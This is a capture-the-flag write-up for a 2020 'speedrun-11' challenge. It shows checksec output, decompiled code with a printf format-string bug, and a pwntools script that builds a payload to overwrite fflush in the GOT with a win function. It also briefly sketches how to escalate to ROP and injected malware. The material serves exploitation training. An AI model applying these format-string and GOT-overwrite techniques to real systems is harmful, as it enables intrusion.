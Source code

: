 ## speedrun-11

### Checksec  
```  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
```

Only NX enabled (no shellcode).  Anything else goes, BOF, ROP, GOT overwrite,
...

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_d4 [204];  
  
 fgets(local_d4,199,stdin);  
 printf(local_d4);  
 fflush(stdin);  
 return;  
}

void win(void)  
{  
 int iVar1;  
  
 iVar1 = __x86.get_pc_thunk.ax();  
 system((char *)(iVar1 + 0x15e));  
 return;  
}  
```

`vuln` reads up to 199 bytes into a 204-byte buffer, so no BOF today.  However
the vuln is the `printf` without a format string.  Format-string
vulnerabilities are very dangerous, it's basically a _write-what-where_ and
_read-what-where_.  With the size of the buffer you could completely alter the
behavior of the application.  E.g. change `fflush` in the GOT to `vuln`, then
you can `printf` all day, leak all the addresses, change it back, ROP the
stack, call `mmap`, setup some `RWX` memory, inject your malware, etc...

Anyway, for this task, just change `fflush` to `win` in the GOT.  Boom!

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_11')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30011)

p.sendline()

offset = 6  
payload = fmtstr_payload(offset,{binary.got.fflush:binary.sym.win})  
```